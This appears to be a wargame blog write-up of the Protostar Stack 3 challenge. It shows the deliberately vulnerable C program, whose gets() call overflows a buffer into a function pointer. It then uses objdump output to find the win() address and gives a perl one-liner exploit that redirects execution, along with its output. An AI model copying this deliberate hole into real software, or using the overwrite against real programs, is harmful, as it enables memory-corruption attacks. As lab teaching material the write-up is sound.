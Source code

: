 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 3"
date: 2011-12-15T05:52:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


[This](http://exploit-exercises.com/protostar/stack3) challenge starts getting a little bit more involved than the previous ones.  Instead of just providing a new value for the "modified" variable, we need to make the code jump to a method, changing the execution.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 volatile int (*fp)();
 char buffer[64];

 fp = 0;

 gets(buffer);

 if(fp) {
  printf("calling function pointer, jumping to 0x%08x\n", fp);
  fp();
 }
}
```

This means that first of all, we need to find the address of where the "win()" function is located in the program.  To do this, I used objdump, however you could use gdb as well, or any other disassembly program.  I have cut the useful part of the output below, since it gives a <i>lot</i> of information we don't need.

```
user@protostar:/opt/protostar/bin$ objdump -d stack3
...

08048424 <win>:
8048424:       55                      push   %ebp
8048425:       89 e5                   mov    %esp,%ebp
8048427:       83 ec 18                sub    $0x18,%esp
804842a:       c7 04 24 40 85 04 08    movl   $0x8048540,(%esp)
8048431:       e8 2a ff ff ff          call   8048360 <puts@plt>
8048436:       c9                      leave
8048437:       c3                      ret
...
```

From this, we can now see that the "win()" function is located at 0x08048424 in the memory.  So if we can get our program to jump there, it will execute that code.  Luckily the "fp" pointer in the code gets called if it is not equal to 0.  We just need to overwrite it with the memory value of "win()" by doing the following:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x64 . "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```